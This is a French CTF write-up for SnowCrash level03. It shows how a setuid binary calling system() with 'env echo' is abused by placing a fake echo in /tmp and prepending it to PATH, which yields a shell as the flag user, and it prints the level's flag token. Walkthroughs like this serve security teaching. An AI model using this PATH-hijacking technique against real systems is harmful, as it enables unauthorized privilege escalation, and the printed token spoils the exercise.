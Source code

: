 On trouve dans le dossier home un binaire ./level03 qui quand on le lance nous affiche un message:
<pre><code>> ./level03
Exploit me</code></pre>

On cherche a savoir ce que le binaire fait, pour cela on utilise ltrace:
<pre><code>> ltrace ./level03
__libc_start_main(0x80484a4, 1, 0xbffff7f4, 0x8048510, 0x8048580
getegid()											= 2003
geteuid()											= 2003
setresgid(2003, 2003, 2003, 0xb7e5ee55, 0xb7fed280) = 0
setresuid(2003, 2003, 2003, 0xb7e5ee55, 0xb7fed280) = 0
system("/usr/bin/env echo Exploit me"Exploit me
--- SIGCHLD (Child exited) ---
<... system resumed> )
</code></pre>
On observe que le binaire fait un appel system pour faire un **echo**

Du coup nous essayons de changer cet appel pour avoir acces a un shell avec les permissions de l'owner:

<pre><code>> echo "/bin/bash" > /tmp/echo
> chmod 777 /tmp/echo && export PATH=/tmp:$PATH
</code></pre>
> Nous remplaçons le **/bin/echo** par un **/bin/bash** pour lancer une nouvelle instance de bash avec des droits plus élevés (ceux de l'owner).


On relance notre binaire:
<pre><code>> ./level03</code></pre>

Notre user passe de <code>level03@SnowCrash</code> à <code>flag03@SnowCrash</code>
Donc notre user a bien changé.

<pre>
<code>> getflag</code>
Check flag.Here is your token : qi0maab88jeaj46qoumi7maus
</pre>
> La commande **getflag** est la seule commande que nous pouvons faire, bien evidemment, sinon il nous serait possible de faire ce que l'on veut sur l'ISO.


## Alternative

<pre><code>> echo "/bin/getflag" > /tmp/echo
> chmod 777 /tmp/echo && export PATH=/tmp:$PATH
</code></pre>

On relance notre binaire:
<pre><code>> ./level03
Check flag.Here is your token : qi0maab88jeaj46qoumi7maus
</code></pre>